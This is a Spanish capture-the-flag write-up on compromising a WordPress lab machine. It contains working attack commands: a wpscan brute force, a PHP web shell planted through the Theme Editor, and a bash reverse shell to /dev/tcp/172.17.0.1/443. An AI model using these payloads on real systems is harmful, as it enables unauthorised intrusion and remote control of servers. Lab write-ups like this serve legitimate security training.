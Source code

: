 # MÁQUINA WALKING CMS

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto.jpg)

El único puerto que se encuentra abierto es el 80. así que vamos a ver el contenido de la página web:

![WEB](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto2.jpg)

Es la página por defecto de Apache por lo que no hay mucha información, además en el código fuente tampoco encontramos nada.

El siguiente paso será hacer fuzzing web para encontrar ficheros o directorios que haya dentro de la máquina:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto3.jpg)

Hay un /wordpress que puede ser interesante, vamos a ver que hay:

![WP](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto4.jpg)

Vamos a volver a hacer fuzzing ya que ahora encontraremos cosas diferentes:

```shell
gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ2](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto5.jpg)

Encontramos lo típico de un wordpress, lo que más no puede interesar será el wp-login.php ya que será el lugar donde podremos acceder al panel.

Vamos a utilizar la herramienta wpscan para ver si podemos encontrar un usuario:

```shell
wpscan --url http://172.17.0.2/wordpress --enumerate u
```

![USR](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto6.jpg)

Hemos encontrado un usuario mario, ahora podemos ejecutar un ataque de fuerza bruta para conseguir su contraseña:

```shell
sudo wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```

![LOVE](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto7.jpg)

Ya hemos encontrado la contraseña, vamos a acceder al panel entonces:

Vemos que tiene el plugin de Theme Editor instalado y activo, una vez que entramos dentro vemos lo siguiente:

![ED](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto8.jpg)

Vamos a intentar habilitar la ejecución de comandos de forma remota para la página index.php del tema con un simple código de php:

```shell
<?php
	system($_GET['cmd']);
?>
```

![PHP](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto9.jpg)

Si ahora nos dirigimos a la URL donde se encuentra el index.php e intentamos ejecutar comandos de forma remota vemos que funciona:

```shell
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```

![ID](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto10.jpg)

Vamos a obtener acceso a la máquina gracias a una reverse shell:

```shell
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![SHELL](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto11.jpg)

¿Habrá algún binario con permisos especiales? Veamoslo:

```shell
find / -perm -4000 2>/dev/null
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Walking%20CMS/foto12.jpg)

Y ya somos root!






